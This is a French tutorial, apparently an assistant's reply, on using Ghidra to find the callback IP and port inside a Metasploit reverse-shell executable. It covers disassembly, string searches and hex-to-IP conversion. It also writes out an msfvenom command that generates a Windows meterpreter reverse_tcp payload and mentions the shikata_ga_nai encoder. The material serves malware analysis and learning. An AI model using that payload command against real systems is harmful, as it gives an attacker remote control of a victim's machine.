 ### Étapes pour analyser l’exécutable avec Ghidra

1. **Installation de Ghidra**
   - Si ce n’est pas déjà fait, télécharge Ghidra depuis le site officiel (https://ghidra-sre.org/) et installe-le. C’est gratuit et compatible avec Windows, Linux ou macOS.

2. **Importation de l’exécutable**
   - Ouvre Ghidra et crée un nouveau projet via "File > New Project".
   - Importe ton exécutable (par exemple, `reverse.exe`) en allant dans "File > Import File". Sélectionne le fichier et confirme.

3. **Analyse automatique**
   - Une fois l’exécutable importé, double-clique dessus dans la fenêtre du projet pour ouvrir l’outil "CodeBrowser".
   - Ghidra te demandera de lancer l’analyse. Clique sur "Yes" pour qu’il désassemble le code et identifie les fonctions automatiquement. Laisse les options par défaut pour l’instant.

4. **Recherche de l’adresse IP**
   - **Vue Listing (code assembleur)** :
     - Dans la fenêtre principale, tu verras le code désassemblé. Cherche des appels réseau comme `connect`, `socket`, ou `WSAStartup` (pour Windows), car un reverse shell doit établir une connexion.
     - L’adresse IP est souvent passée en paramètre avant l’appel à `connect`. Elle peut apparaître sous forme hexadécimale (par exemple, `192.168.1.1` devient `0xC0A80101`).
   - **Vue Decompile (pseudo-code C)** :
     - À droite, la fenêtre "Decompile" traduit le code en pseudo-C. Cherche une variable ou une structure contenant une IP ou un port (comme `4444` si tu as utilisé ce port).
   - **Recherche de chaînes** :
     - Va dans "Search > For Strings" (ou Ctrl+E) et coche "Search All". Cherche des motifs comme "192.168." ou une suite de nombres ressemblant à une IP. Si Metasploit n’a pas obfusqué l’IP, elle peut être en clair.
   - **Conversion hexadécimale** :
     - Si tu trouves une valeur comme `0xC0A80101`, convertis-la :
       - `C0` = 192, `A8` = 168, `01` = 1, `01` = 1 → `192.168.1.1`.
       - Note que l’ordre peut être inversé selon l’endianness (little-endian sur x86).

5. **Exemple concret**
   - Si ton payload a été généré avec `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o reverse.exe` :
     - Cherche `0x6401A8C0` (192.168.1.100 en hexadécimal) dans le code assembleur près d’un `push` ou `mov`.
     - Le port (comme `4444`, soit `0x115C` en hexadécimal) sera souvent à proximité.

6. **Validation**
   - Une fois l’IP trouvée (par exemple, "192.168.1.100"), compare-la avec celle que tu as définie dans `LHOST`. Si elles correspondent, tu as réussi !

### Astuces
- Si l’exécutable utilise un encodeur (comme `shikata_ga_nai`), l’IP peut être cachée dans une routine de décodage. Cherche alors le point où le payload est décodé avant l’appel réseau.
- Utilise la vue "Function Call Graph" pour repérer les fonctions réseau clés.

